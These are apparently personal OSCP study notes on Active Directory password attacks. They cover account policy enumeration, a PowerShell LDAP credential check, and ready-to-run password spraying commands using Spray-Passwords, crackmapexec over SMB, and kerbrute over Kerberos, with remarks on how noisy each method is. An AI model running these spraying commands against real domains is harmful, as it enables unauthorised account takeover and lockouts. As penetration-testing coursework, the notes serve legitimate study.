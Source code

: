 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/2-password-attacks/","updated":"2024-01-05T11:36:49.866+01:00"}
---
```


------
Enumerate account policy:
```
net accounts
```
---------------
### Manual LDAP Password Attack:
- Local method
- Low and slow attack method
- Run lines separately or as a script
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<user>", "<password>")
```
- If credentials are correct the object creation is successful
--------------
### Automatic LDAP Attack with Spray-Passwords:
- https://github.com/ZilentJack/Spray-Passwords
- Does not require any admin access.
- Generates a lot of traffic and is not opsec safe
- Usage:
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

#Multiple passwords: -Pass 'Password1,Password2'
#Download wordlist: -Url <url>
```
--------------
### SMB Password Attack with crackmapexec:
- Remote method
- Crackmap does not take password policy into account so be cautious
- Traditional attack approach in AD
- Drawback that full SMB connection has to be made for every try
- Very noisy and quite slow
```bash
sudo crackmapexec smb <ip-on-domain> -u users.txt -p 'Nexus123!' -d <domain> --continue-on-success
```
- "Pwn3d!" indicates admin user!
----------
### Kerberos TGT Attack with kerbrute:
- Cross-platform method
- If username and password are correct a cached Kerberos ticket is obtained.
- Only uses two UDP frames every try (only AS-REQ).
- Local usage:
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d <domain> .\usernames.txt "password123!"
```
- If receives network error make sure usernames file is of ANSI encoding.
